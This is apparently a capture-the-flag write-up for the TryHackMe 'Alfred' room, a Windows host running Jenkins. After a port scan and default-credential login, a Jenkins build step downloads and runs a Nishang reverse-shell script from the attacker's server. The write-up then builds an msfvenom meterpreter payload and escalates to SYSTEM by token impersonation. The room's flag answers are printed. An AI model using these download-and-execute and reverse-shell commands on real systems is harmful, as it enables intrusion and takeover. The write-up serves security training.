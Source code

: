 ###### Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.
Room: https://tryhackme.com/room/alfred
##

**sudo nmap** -Pn -sS -sV -T5 -vv xx.xx.xxx.xx

```
PORT     STATE SERVICE    REASON          VERSION
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

If we go to http://machineIP/8080, we can see a Jenkins application running.   
Bruteforcing this reveals the login credentials. I just checked the default jenkins credentials first.
```
username: admin
password: admin
```
Create a new project/edit the current one and add the following commands  
```
powershell invoke-expression (New-Object Net.WebClient).DownloadString('http://xx.x.x.xxx:8000/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress xx.x.x.xxx -Port 1111
```
**Note:** DO NOT change the file name. It won't work.  
The file **Invoke-PowerShellTcp.ps1** is from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).  

Before Building the Project on Jenkins, be sure you started a local listener & HTTP server and the Invoke-PowerShellTcp.ps1 file is available.  

Then, Build the Project on Jenkins. From your server, it'll download the .ps1 file.  
On your listener, you'll get a shell.  

**server terminal** 
```
xx.xx.xxx.xx - - [11/Oct/2021 00:21:32] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

**listener terminal**
```
onnect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xxx.xx] 49217
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Program Files (x86)\Jenkins\workspace\project> 
```

The first flag is on C:\Users\bruce\Desktop   **[1]**  
> 79007a09481963edf2e1321abd9ae2a0

Generate a payload using **msfvenom**.   
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=xx.x.x.xxx LPORT=1112 -f exe -o shell.exe
```
Upload it by using the following command  

```powershell "(New-Object System.Net.WebClient).Downloadfile('http://attacking_machine_ip:8000/shell.exe','shell.exe')"```

Before running the script, open **metasploit** and run the following commands  

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST attackin_machine_IP
set LPORT listening-port 
run
```

You should see something similar    
```
[*] Started reverse TCP handler on xx.x.x.xxx:1112
```

Now, on the target machine run **Start-Process "shell.exe"**.  
We got a meterpreter shell running.  

On the meterpreter shell, use **load incognito**.  
Then, use **impersonate_token "BUILTIN\Administrators** to escalate our privileges.  

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
The second and final flag is in C:\Windows\System32\config\root.txt    **[2]**
> dff0f748678f280250f25a45b8046b4a
##
**Note: This room can be exploited without the help of metasploit by uploading a static incognito.exe binary since user bruce has the impersonate privileges. Then, we can use the static binary to create a new user with administrator privileges and use RDP to access the machine. **
